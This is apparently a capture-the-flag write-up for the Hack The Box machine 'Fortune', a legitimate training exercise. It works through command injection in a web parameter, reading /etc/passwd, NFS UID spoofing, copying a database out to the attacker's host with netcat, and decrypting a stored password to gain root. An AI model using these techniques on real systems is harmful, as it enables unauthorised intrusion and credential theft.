


<p align="center">
  
</p>

***

# External Recon
I started with my usual "nmap" scan:

```
nmap -sC -sV -oN initial 10.10.10.127

PORT    STATE SERVICE    VERSION
22/tcp  open  ssh        OpenSSH 7.9 (protocol2.0)                                         
80/tcp  open  http       OpenBSD httpd
|_http-server-header: OpenBSD httpd
|_http-title: Fortune
443/tcp open  ssl/https?
```

Most of the time you'll have the best chances to find something on the webservices
rather than "ssh".

So let's take a look at "port 80":


You can select a fortune-database as it seems and get a fortune-cookie.



To make the writeup easier to follow we'll explore "port 443" later.
In reality I checked "port 443" at this point to get an high level overview before exploring "port 80" further.

To see what's happening in the background - let's sent the request to "burp".


As you can see, with our selection on the site, we filled the `db=` paramenter.
This looks like a good place to inject some stuff. First I tried "SQLi" with "SQLMap"
without any success. I've learned: Always try different tools as they might yield different results.
So I used "wfuzz" with a generic "SQLi" wordlist from "SecList".

`wfuzz -c -z file,/opt/SecLists/Fuzzing/SQLi/Generic-SQLi.txt -d 'db=FUZZ' --hl 16 http://10.10.10.127/select`

At first, I thought this was a dead-end too. Also I thought I crashed my "kali" because my terminal wasn't responding.
But my terminal came back to life and I almost cleared my screen to try something else.
I noticed that the very last injection was this:

`"%20$(sleep%2050)"`

It's a 50 second sleep! I rushed back to "burp" to verify that with a 3 second sleep.
And it worked! We have command execution!

I played a long time with this "feature" to get a "reverse-shell". But I failed.
So I tried getting some type of "ICMP Tunnel" going because it seemed that only "ICMP" was allowed.

But after hours of poking at it, I asked a buddy if I am in a rabbit-hole of some sorts.
He just laughed and said, that he made the very same mistake and wasted hours too.

We both forgot about the basics of injection. Both of us did the injections like this:

`db=$(ping -c 1 10.10.14.5)`

Which is basically a "sub-bash". Which doesn't give you the same experience as a "native" bash-process.
It won't return output of commands like `ls -la`.
So what's the solution to this? Well, append a command to the existing one.

`db=; ping -c 1 10.10.14.5`

Easy! Well, when you remember the stuff you've done a dozen times by now.
However, I wasn't able so spawn a "reverse-shell" this way. So I spent some time enumerating the filesystem.

# Explore

I started with `id` and `/etc/passwd` to see who's boss on that box.

```
db=; id
uid=512(_fortune) gid=512(_fortune) groups=512(_fortune)

db=; cat /etc/passwd
charlie:*:1000:1000:Charlie:/home/charlie:/bin/ksh
bob:*:1001:1001::/home/bob:/bin/ksh
nfsuser:*:1002:1002::/home/nfsuser:/usr/sbin/authpf
```

The "nfsuser" sticks out. I expected a couple of normal users, but a service user like this should make
you wondering what it does. ;)

Most configs for services are in "/etc" so I started my search there. And sure enough I found the configs for "authpf"
there. Why "authpf"? It's in the path of "nfsuser". Unfortunately we can't access them with our current permissions.

So I checked his "/home" directory.

`db=; ls -la /home/nfsuser`

This was a dead end too. Let's check "port 443" then.


"Firefox" greets us with a strange "Unknown_CA_error".
Let's edit our "/etc/hosts" files and use a hostname, but I got the same error. This is odd. What about a different browser then? How about "Chromium"?
After <a href="https://highon.coffee/blog/kali-chromium-install" target="_blank">disabling a feature</a> of "Chromium" which prevents me from running it as root, 
I was greeted with a somewhat different message.


So I need a client certificate to view that page. Let's check the filesystem again.

```
db=; ls -la /home/bob/ca

drwxr-xr-x  7 bob  bob   512 Oct 29 20:57 .
drwxr-xr-x  5 bob  bob   512 Nov  3 16:29 ..
drwxr-xr-x  2 bob  bob   512 Oct 29 20:44 certs
drwxr-xr-x  2 bob  bob   512 Oct 29 20:37 crl
-rw-r--r--  1 bob  bob   115 Oct 29 20:56 index.txt
-rw-r--r--  1 bob  bob    21 Oct 29 20:56 index.txt.attr
-rw-r--r--  1 bob  bob     0 Oct 29 20:37 index.txt.old
drwxr-xr-x  7 bob  bob   512 Nov  3 15:37 intermediate
drwxr-xr-x  2 bob  bob   512 Oct 29 20:56 newcerts
-rw-r--r--  1 bob  bob  4200 Oct 29 20:55 openssl.cnf
drwx------  2 bob  bob   512 Oct 29 20:41 private
-rw-r--r--  1 bob  bob     5 Oct 29 20:56 serial
-rw-r--r--  1 bob  bob     5 Oct 29 20:37 serial.old
```

This looks like progress.
I downloaded all the certificates from "/home/bob/ca/intermediate" and created a client-certificate with "openssl":

`openssl pkcs12 -export -clcerts -in intermediate.cert.pem -inkey intermediate.key.pem -out client_cert.p12`

I imported it into "Chromium" and refreshed the page.


A plain "HTML" site showed up saying:

> You will need to use the local authpf service to obtain elevated network access.
> If you do not already have the appropriate SSH key pair, then you will need to `<generate>` one
> and configure your local system appropriately to proceed.

Cool! I clicked the "generate" link and was redirected to this new page.



I created an "id_rsa" file for "ssh" and logged in.


According to the "authpf" documentation there should be a new open port now.
To make the discovery a bit quicker I used "masscan"

`masscan -p1-65535,U:1-65535 10.10.10.127 --rate=5000 -e tun0`


And then "nmap" to check which port is our new target.

```
nmap -p 2049,795,111 -sV -sC 10.10.10.127

PORT     STATE SERVICE VERSION
111/tcp  open  rpcbind 2 (RPC #100000)
795/tcp  open  mountd  1-3 (RPC #100005)
2049/tcp open  nfs     2-3 (RPC #100003)
```

The "nfs" service was the most interesting service. Let's see if there's an open share for us!

# Weaponize

```
showmount -e 10.10.10.127

Export list for 10.10.10.127:
/home (everyone)
```

With `showmount` I was able to find an open share. To check it you might need to install some nfs-tools to do so. Google is your friend. :)

```
mkdir fortune
mount -o hard,nolock 10.10.10.127:/home fortune

cd fortune
ls -la

drwxr-xr-x 5 root    root     512 Nov  3 02:19 .
drwxr-xr-x 3 root    root    4096 Apr 21 13:56 ..
drwxr-xr-x 5 1001    1001  512 Nov  3 21:29 bob
drwxr-x--- 3 1000    1000  512 Nov  6 04:02 charlie
drwxr-xr-x 2 1002    1002  512 Nov  3 03:39 nfsuser
```
Bummer. We can't access `charlies` folder. Or can we?
When we check the `UID/GUID` we just see a number. What would happen
when we create a new user with `UID/GUID` of `1000` on our own system?

# Exploit

```
$ adduser hacker
$ passwd hacker -> hacker
$ nano /etc/passwd
$ hacker:x:1000:1000::/home/hacker:/bin/sh
$ su hacker
$ cd /fortune/charlie

$ ls
mbox  user.txt
```

We've got `user.txt` and a mail! So I was able to bypass any Access Controls by mapping the share and creating a new user.

> Hi Charlie,
> 
> Thanks for setting-up pgadmin4 for me. Seems to work great so far.                                                            
> BTW: I set the dba password to the same as root. I hope you don't mind.
> 
> Cheers,
> 
> Bob

To make my life easier I added a propper ssh-key into charlies account.
I just created a "ssh-key", added the "public-key" to his ".ssh/authorized_keys" file and login into "ssh".

`ssh -i .ssh/id_rsa charlie@10.10.10.127`

# Internal Recon
According to Bobs Email. He worked on "pgadmin4" let's locate the database and see if we can mess with it.

```
ls -la /var/appserv/pgadmin4

-rw-r-----  1 _pgadmin4  wheel  118784 Nov  3 10:56 pgadmin4.db
-rw-r-----  1 _pgadmin4  wheel     479 Nov  3 10:47 pgadmin4.ini
```

I downloaded the database with this command on my "kali" box:

`nc -l -p 1337 > pgadmin4.db`

and on "fortune" I did:

`nc -w 3 10.10.14.4 1337 < pgadmin4.db`

I searched for an <a href="https://sqliteonline.com" target="_blank">online database viewer</a> and uploaded the database
to explore its contents.

The most interesting tables were: "keys" and "users"


```
bob@fortune.htb$pbkdf2-sha512$25000$z9nbm1Oq9Z5TytkbQ8h5Dw$Vtx9YWQsgwdXpBnsa8BtO5kLOdQGflIZOQysAy7JdTVcRbv/6csQHAJCAIJT9rLFBawClFyMKnqKNL5t3Le9vg                        
charlie@fortune.htb$pbkdf2-sha512$25000$3hvjXAshJKQUYgxhbA0BYA$iuBYZKTTtTO.cwSvMwPAYlhXRZw8aAn9gBtyNQW3Vge23gNUMe95KqiAyf37.v1lmCunWVkmfr93Wi6.W.UzaQ
```

# Privilege Escalation

According to the mail, the root password and the password for the database
are the same. When I can crack the database password, I know the root password of the box. The question is: How do those hashes get generated?

I checked the "github" repo of "pgadmin4". After digging around for quite some time I found <a href="https://github.com/postgres/pgadmin4/blob/master/web/pgadmin/utils/crypto.py" target="_blank">crypto.py</a> which implements the password encryption part of `pgadmin4`.

In theory you are supposed to write a decryption script now. But while doing some research I found a halfway finished
script online on pastebin. At this point I was working in this machine for about three days and I couldn't be bothered to
go through the coding process, knowing that it wouldn't prevent my victory only delay it. So I grabbed the script and added the last bits and bobs.

Which was importing the crypto-lib from "github" and changing the propper values from the database.

You can find the finished script here: <a href="https://www.tagnull.de/post/fortune/decrypt.py">decrypt.py</a>.

# Root Flag
Running the script, decrypted the database password to `R3us3-0f-a-P4ssw0rdl1k3th1s?_B4D.ID3A!`

Elevating my privilege with `su -` and the above password gave me access to `root`.

```
fortune$ su -
Password:
fortune# id                                                                                                                                           
uid=0(root) gid=0(wheel) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)                                                  
```
Another fun box down! :)<br>
Also I got a new shiny badge for it!

